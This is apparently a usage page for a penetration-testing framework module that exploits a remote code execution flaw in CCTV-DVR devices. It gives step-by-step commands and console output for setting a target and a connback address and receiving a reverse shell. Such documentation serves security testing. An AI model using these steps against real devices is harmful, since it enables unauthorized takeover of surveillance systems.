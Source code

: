 ## Description

Remote Code Execution in CCTV-DVR affecting over 70 different vendors

## Verification Steps


  1. Start ./rsf.py
  2. use exploits/cameras/multi/cctv_dvr_rce
  3. set target 192.168.1.1
  4. set connback 192.168.1.100:5555
  5. run
  6. If device is vulnerable you will receive reverse shell.

## Scenarios

```
rsf > use exploits/cameras/multi/cctv_dvr_rce
rsf (Multiple CCTV-DVR Vendors) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Multiple CCTV-DVR Vendors) > set connback 192.168.1.100:5555
[+] connback => 192.168.1.100:5555
rsf (Multiple CCTV-DVR Vendors) > run
[*] Running module...
[+] Target is vulnerable
[*] Exploit payload sent!
[+] If nothing went wrong we should be getting a reversed remote shell at 192.168.1.100:5555
```
